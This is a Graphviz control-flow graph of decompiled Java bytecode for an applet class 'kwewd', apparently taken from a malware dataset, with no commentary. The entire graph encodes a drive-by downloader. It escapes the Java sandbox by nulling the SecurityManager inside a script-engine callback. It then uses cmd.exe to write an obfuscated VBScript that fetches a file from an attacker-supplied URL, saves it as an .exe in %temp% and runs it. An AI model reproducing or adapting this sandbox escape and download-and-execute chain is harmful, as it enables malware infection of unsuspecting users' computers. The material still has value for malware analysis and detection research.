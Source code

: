 digraph "" {
    "r0 := @this: kwewd"
    "load.r r0"
    "r0 := @this: kwewd"->"load.r r0";
    "push 1"
    "load.r r0"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "store.r $r57"
    "newarray"->"store.r $r57";
    "load.r $r57"
    "store.r $r57"->"load.r $r57";
    "push 0"
    "load.r $r57"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "dup1.r"
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"js\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"js\"";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "push \"js\""->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "dup1.r"->"load.r r0";
    "push \"data\""
    "load.r r0"->"push \"data\"";
    "virtualinvoke <kwewd: java.lang.String getParameter(java.lang.String)>"
    "push \"data\""->"virtualinvoke <kwewd: java.lang.String getParameter(java.lang.String)>";
    "store.r r1"
    "virtualinvoke <kwewd: java.lang.String getParameter(java.lang.String)>"->"store.r r1";
    "new java.lang.StringBuilder"
    "store.r r1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"c\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"c\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"c\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"m\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"m\"";
    "push \"m\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"d\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"d\"";
    "push \"d\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \".\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \".\"";
    "push \".\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"e\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"e\"";
    "push \"e\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"x\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"x\"";
    "push \"x\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"e\"";
    "push \"e\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r8"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r8";
    "store.r r8"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"var error = new Error(\\\"My error\\\");this.toString = function(){ java.lang.System.setSecurityManager(null);java.lang.Runtime.getRuntime().exec(\'\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"var error = new Error(\\\"My error\\\");this.toString = function(){ java.lang.System.setSecurityManager(null);java.lang.Runtime.getRuntime().exec(\'\"";
    "push \"var error = new Error(\\\"My error\\\");this.toString = function(){ java.lang.System.setSecurityManager(null);java.lang.Runtime.getRuntime().exec(\'\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r8"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\tmpueer.vbs\\\"&&\"";
    "push \" /c echo URL = LCase(WScript.Arguments(0))>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" /c echo dim m,s>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" /c echo dim m,s>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\"";
    "push \" /c echo dim m,s>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" /c echo m=\\\"M^weww^i^weww^c^weww^r^weww^o^weww^s^weww^o^weww^f^weww^t^weww^.^weww^X^weww^M^weww^L^weww^H^weww^T^weww^T^weww^P\\\">>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" /c echo m=\\\"M^weww^i^weww^c^weww^r^weww^o^weww^s^weww^o^weww^f^weww^t^weww^.^weww^X^weww^M^weww^L^weww^H^weww^T^weww^T^weww^P\\\">>\\\"%temp%\\\\tmpueer.vbs\\\"&&\"";
    "push \" /c echo m=\\\"M^weww^i^weww^c^weww^r^weww^o^weww^s^weww^o^weww^f^weww^t^weww^.^weww^X^weww^M^weww^L^weww^H^weww^T^weww^T^weww^P\\\">>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" /c echo s=\\\"A=YRWE=D=YRWE=O=YRWE=DB=YRWE=.=YRWE=S=YRWE=t=YRWE=r=YRWE=e=YRWE=a=YRWE=m\\\">>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" /c echo s=\\\"A=YRWE=D=YRWE=O=YRWE=DB=YRWE=.=YRWE=S=YRWE=t=YRWE=r=YRWE=e=YRWE=a=YRWE=m\\\">>\\\"%temp%\\\\tmpueer.vbs\\\"&&\"";
    "push \" /c echo s=\\\"A=YRWE=D=YRWE=O=YRWE=DB=YRWE=.=YRWE=S=YRWE=t=YRWE=r=YRWE=e=YRWE=a=YRWE=m\\\">>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" /c echo set cmd =Createobject(replace(m,\\\"^weww^\\\",\\\"\\\")) >>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" /c echo set cmd =Createobject(replace(m,\\\"^weww^\\\",\\\"\\\")) >>\\\"%temp%\\\\tmpueer.vbs\\\"&&\"";
    "push \" /c echo set cmd =Createobject(replace(m,\\\"^weww^\\\",\\\"\\\")) >>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\tmpueer.vbs\\\"&&\"";
    "push \" /c echo cmd.Open \\\"GET\\\",URL,0 >>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" /c echo cmd.Send()>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" /c echo cmd.Send()>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\"";
    "push \" /c echo cmd.Send()>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\"";
    "push \" /c echo FileName=LCase(WScript.Arguments(1))>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" /c echo Set CsCriptGet = Createobject(replace(s,\\\"=YRWE=\\\",\\\"\\\"))>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" /c echo Set CsCriptGet = Createobject(replace(s,\\\"=YRWE=\\\",\\\"\\\"))>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\"";
    "push \" /c echo Set CsCriptGet = Createobject(replace(s,\\\"=YRWE=\\\",\\\"\\\"))>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\"";
    "push \" /c echo CsCriptGet.Mode=^3>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\"";
    "push \" /c echo CsCriptGet.Type=^1>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" /c echo CsCriptGet.Open()>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" /c echo CsCriptGet.Open()>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\"";
    "push \" /c echo CsCriptGet.Open()>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\"";
    "push \" /c echo CsCriptGet.Write(cmd.responseBody)>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\"";
    "push \" /c echo CsCriptGet.SaveToFile FileName,^2>>\\\"%temp%\\\\tmpueer.vbs\\\"&&\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r8";
    "load.r r8"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" /c cscript \\\"%temp%\\\\tmpueer.vbs\\\" \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" /c cscript \\\"%temp%\\\\tmpueer.vbs\\\" \"";
    "push \" /c cscript \\\"%temp%\\\\tmpueer.vbs\\\" \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" \\\"%temp%\\\\tmp8342335.exe\\\"&& \\\"%temp%\\\\tmp8342335.exe\\\"\');\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" \\\"%temp%\\\\tmp8342335.exe\\\"&& \\\"%temp%\\\\tmp8342335.exe\\\"\');\"";
    "push \" \\\"%temp%\\\\tmp8342335.exe\\\"&& \\\"%temp%\\\\tmp8342335.exe\\\"\');\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"return \\\"OK!!!!\\\";};\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"return \\\"OK!!!!\\\";};\"";
    "push \"return \\\"OK!!!!\\\";};\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"error.message = this;\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"error.message = this;\"";
    "push \"error.message = this;\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1";
    "pop"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String)> 1"->"pop";
    "push \"error\""
    "pop"->"push \"error\"";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"
    "push \"error\""->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object get(java.lang.String)> 1"->"arraywrite.r";
    "new javax.swing.JList"
    "arraywrite.r"->"new javax.swing.JList";
    "new javax.swing.JList"->"dup1.r";
    "dup1.r"->"load.r $r57";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "load.r $r57"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "fieldput <kwewd: javax.swing.JList list>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"fieldput <kwewd: javax.swing.JList list>";
    "fieldput <kwewd: javax.swing.JList list>"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldget <kwewd: javax.swing.JList list>"
    "load.r r0"->"fieldget <kwewd: javax.swing.JList list>";
    "virtualinvoke <kwewd: java.awt.Component add(java.awt.Component)>"
    "fieldget <kwewd: javax.swing.JList list>"->"virtualinvoke <kwewd: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <kwewd: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"
    "virtualinvoke <kwewd: java.awt.Component add(java.awt.Component)>"->"virtualinvoke <javax.script.ScriptException: void printStackTrace()>";
}

